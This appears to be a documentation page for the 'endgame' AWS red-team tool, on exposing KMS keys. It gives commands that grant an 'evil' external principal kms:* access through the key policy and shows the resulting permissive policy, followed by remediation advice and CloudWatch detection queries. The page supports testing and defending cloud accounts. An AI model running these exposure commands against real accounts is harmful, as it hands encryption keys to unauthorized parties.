 # KMS Keys

## Steps to Reproduce

* To expose the resource using `endgame`, run the following from the victim account:

```bash
export EVIL_PRINCIPAL=arn:aws:iam::999988887777:user/evil

endgame expose --service kms --name test-resource-exposure
```

* To view the contents of the Glacier Vault Access Policy, run the following:

```bash
export VICTIM_KEY_ARN=arn:aws:kms:us-east-2:111122223333:key/1234abcd-12ab-34cd-56ef-1234567890ab

aws kms get-key-policy --key-id $VICTIM_KEY_ARN --policy-name default
```

* Observe that the output of the overly permissive KMS Key Policy resembles the example shown below.

## Example

Observe that the policy below allows the evil principal (`arn:aws:iam::999988887777:user/evil`) the `kms:*` permissions to the KMS Key.

```json
{
    "Version": "2012-10-17",
    "Statement": [
        {
            "Sid": "Endgame",
            "Effect": "Allow",
            "Principal": {
                "AWS": "arn:aws:iam::999988887777:user/evil"
            },
            "Action": "kms:*",
            "Resource": "arn:aws:kms:us-east-1:111122223333:key/1234abcd-12ab-34cd-56ef-1234567890ab"
        }
    ]
}
```

## Exploitation

```
TODO
```

## Remediation
* **Trusted Accounts Only**: Ensure that KMS Keys are only shared with trusted accounts, and that the trusted accounts truly need access to the key.
* **Ensure access is necessary**: For any trusted accounts that do have access, ensure that the access is absolutely necessary.
* **AWS Access Analyzer**: Leverage AWS Access Analyzer to report on external access to  KMS Keys. See [the AWS Access Analyzer documentation](https://docs.aws.amazon.com/IAM/latest/UserGuide/access-analyzer-resources.html) for more details.
* **Restrict access to IAM permissions that could lead to exposure of your KMS Keys**: Tightly control access to the following IAM actions:
  - [kms:PutKeyPolicy](https://docs.aws.amazon.com/kms/latest/APIReference/API_PutKeyPolicy.html): _Controls permission to replace the key policy for the specified customer master key_
  - [kms:GetKeyPolicy](https://docs.aws.amazon.com/kms/latest/APIReference/API_GetKeyPolicy.html): _Controls permission to view the key policy for the specified customer master key_
  - [kms:ListKeys](https://docs.aws.amazon.com/kms/latest/APIReference/API_ListKeys.html): _Controls permission to view the key ID and Amazon Resource Name (ARN) of all customer master keys in the account_
  - [kms:ListAliases](https://docs.aws.amazon.com/kms/latest/APIReference/API_ListAliases.html): _Controls permission to view the aliases that are defined in the account. Aliases are optional friendly names that you can associate with customer master keys_

Also, consider using [Cloudsplaining](https://github.com/salesforce/cloudsplaining/#cloudsplaining) to identify violations of least privilege in IAM policies. This can help limit the IAM principals that have access to the actions that could perform Resource Exposure activities. See the example report [here](https://opensource.salesforce.com/cloudsplaining/)

## Basic Detection
The following CloudWatch Log Insights query will include exposure actions taken by endgame:
```
fields eventTime, eventSource, eventName, userIdentity.arn, userAgent
| filter eventSource='kms.amazonaws.com' and eventName='PutKeyPolicy'
```

The following query detects policy modifications which include the default IOC string:
```
fields eventTime, eventSource, eventName, userIdentity.arn, userAgent 
| filter eventSource='kms.amazonaws.com' and (eventName='PutKeyPolicy' and requestParameters.policy like 'Endgame')
```

This query assumes that your CloudTrail logs are being sent to CloudWatch and that you have selected the correct log group.

## References

* [put-key-policy](https://awscli.amazonaws.com/v2/documentation/api/latest/reference/kms/put-key-policy.html)
* [get-key-policy](https://awscli.amazonaws.com/v2/documentation/api/latest/reference/kms/get-key-policy.html)